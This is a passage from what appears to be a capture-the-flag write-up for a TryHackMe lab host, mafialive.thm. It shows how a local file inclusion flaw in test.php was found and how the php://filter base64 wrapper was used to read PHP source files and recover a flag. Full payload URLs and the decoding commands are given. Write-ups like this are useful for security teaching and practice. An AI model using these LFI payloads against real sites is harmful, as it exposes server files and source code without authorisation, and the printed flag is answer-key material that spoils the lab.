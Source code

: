 Going over to ```/test.php```

![image](https://user-images.githubusercontent.com/67879936/222672372-7b9bfeb4-ec49-493a-a3ac-5167abf0d7c7.png)

Clicking on the button reveals that test.php is under development

![image](https://user-images.githubusercontent.com/67879936/222672470-3a52bd03-bf7a-41cd-ade3-912715640e66.png)

I guess this answers our third question



4. Find flag 2

The button on the test.php page is revealing this url

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php
```

With this url displayed I think we got oursleves an LFI(Local File Inclusion)

To be able to read the source code we can use a PHP wrapper filter. In this case we will use the one that encodes the content in base64

If you want to read more on PHP wrapper filter you can use this [link]([PayloadsAllTheThings — Wrapper php://filter](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter))

Here is how we can actually use it for our host

command: ```http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php```

Now, using the PHP wrapper filter that encodes content in base64

![image](https://user-images.githubusercontent.com/67879936/222673029-4588c9ae-66c2-4dcc-8050-efb8646b623d.png)

We got a base64 encoded text, we can go ahead to decode it to confirm if it is still the same page

![image](https://user-images.githubusercontent.com/67879936/222673213-554175cb-8a9a-4c8c-8135-9f15f58869cc.png)

command:```echo “PD9waHAgZWNobyAnQ29udHJvbCBpcyBhbiBpbGx1c2lvbic7ID8+Cg==” | base64 — decode```

Now, lets try this on /test.php (the one we tried earlier was on mrrobot.php)

url: ```http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php```

![image](https://user-images.githubusercontent.com/67879936/222673661-fbea35e1-6564-4b18-9c07-7519e6b95b4c.png)

Well, we got ourselves another base64 encoded text. Let’s try decoding this

command:```echo “base64” | base64 — decode```

Decoding the text we found this

![image](https://user-images.githubusercontent.com/67879936/222675222-ba5ca4c9-d640-4f35-9c61-a1cc65f20896.png)

Flag2:```thm{explo1t1ng_lf1}```
